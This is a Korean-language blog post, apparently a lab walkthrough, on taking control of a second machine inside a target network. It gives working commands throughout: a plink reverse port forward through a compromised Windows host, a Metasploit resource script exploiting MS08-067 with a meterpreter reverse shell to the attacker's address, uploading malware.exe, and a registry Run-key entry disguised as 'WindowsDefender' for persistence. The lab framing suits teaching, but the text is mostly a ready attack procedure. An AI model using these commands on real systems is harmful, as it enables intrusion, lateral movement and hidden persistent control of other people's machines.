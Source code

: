 ```yaml
---
title: 표적 네트워크의 다른 시스템에 대한 제어 권한 탈취와 제어
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2022-06-16 20:00:00 +0800
categories: [Blogging, Network]
tags: [getting started]
pin: false
---
```


## Step1. 환경 구성

---

### 환경 구성

환경 구성은 다음과 같다.

ip가 56번(내부) 대역에서 57번(외부) 대역으로 서비스에 접근할 수 있지만, 57번(외부) 대역에서 56번(내부) 대역으로는 서비스 접속이 안되게 설정한다.

시나리오를 구성하자면, ARPING을 통해 Window #2를 찾아낸 후 공격을 실행하는 시나리오다.

![1](https://user-images.githubusercontent.com/59737252/170284643-3a53495b-bfc3-4dc4-8f44-a36d04208285.png){: width="90%"}

<br>

## Step2. 세션 획득

---

handler를 사용하여 Windows #1의 세션을 얻은 후 진행한다.

<br>

> 칼리에서 진행한다.

```console
C:\WINDOWS\Temp> plink -R 8888:192.168.56.20:445 -l root -pw lab 192.168.57.10
```

<br>

칼리에서 아래의 스크립트가 있다면 스크립트 구성은 넘어가도 된다.

> ms08_067_meterpreter_reverse_tcp_relay.rc

```vim
use exploit/windows/smb/ms08_067_netapi
set RHOST 127.0.0.1
set RPORT 8888
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.57.10
exploit
```

<br>

다음으로 msfconsole을 통해 공격스크립트를 실행한다.

> 칼리에서 진행한다.

```console
kali# msfconsole -r ms08_067_meterpreter_reverse_tcp_relay.rc
```

![8](https://user-images.githubusercontent.com/59737252/170677854-af69ddf1-de96-45b2-80cd-09a24b128abc.png)

<br>

오류가 생겼다면 다음글을 참고하도록 한다.

[원격 서비스 공격과 측면 이동](https://hdev1004.github.io/posts/%EC%9B%90%EA%B2%A9-%EC%84%9C%EB%B9%84%EC%8A%A4-%EA%B3%B5%EA%B2%A9%EA%B3%BC-%EC%B8%A1%EB%A9%B4-%EC%9D%B4%EB%8F%99/)

<br>

## Step3. 제어 지속

---

plink를 통한 공격을 성공하였다면, malware.exe를 업로드 시킨다.

<br>

> meterpreter 에서 진행한다.

```console
meterpreter> upload /root/Desktop/malware.exe c:\\windows\\temp\\malware.exe
```

![5](https://user-images.githubusercontent.com/59737252/174431958-6fbb16b8-ce06-4be5-90af-f637bd6b180a.png)

<br>

제어 지속을 위해 Windows #2 또한 레지스트리를 설정한다.

> 레지스트리 검색

```console
C:\WINDOWS\Temp> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
```

![6](https://user-images.githubusercontent.com/59737252/174432211-4fe3648d-940d-47b2-966a-216ea0cb23d3.png)

해당 경로의 레지스트리 경로를 보여준다.

<br>

> 레지스트리 추가

```console
C:\WINDOWS\Temp> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsDefender" /t REG_SZ /d "C:\Windows\Temp\malware.exe" /f
```

![7](https://user-images.githubusercontent.com/59737252/174432212-6d433ff5-e5b1-42f6-9154-f9e9145dc7f4.png)

<br>

## Step4. 결과 확인

---

Windows #2를 재부팅 하여 handler를 통해 제어 지속이 되었는지 확인한다.

![8](https://user-images.githubusercontent.com/59737252/174432373-664e3cd0-8bd5-4353-a0f6-3cbcd568382d.png)
